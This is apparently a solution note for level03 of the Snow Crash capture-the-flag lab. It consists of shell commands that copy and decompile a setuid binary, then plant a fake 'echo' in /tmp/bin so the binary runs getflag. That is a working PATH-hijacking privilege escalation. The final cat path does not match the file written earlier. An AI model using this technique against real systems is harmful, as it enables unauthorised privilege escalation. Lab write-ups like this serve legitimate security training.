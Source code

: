CMD: 
    scp -P 4246 level03@localhost:~/level03 42/snow-crash ex03/ressources/.
STEP:
    https://dogbolt.org/?id=0a105cdf-9237-4e31-9773-e9a12740c81a#Ghidra=151

CMD:
    mkdir -p /tmp/bin;
    find / -name "getflag" 2> /dev/null;
    echo -e "/bin/getflag > /tmp/token_lvl03" > /tmp/bin/echo;
    chmod +x /tmp/bin/echo;
    ./level03;
    cat /tmp/bin/token_lvl03;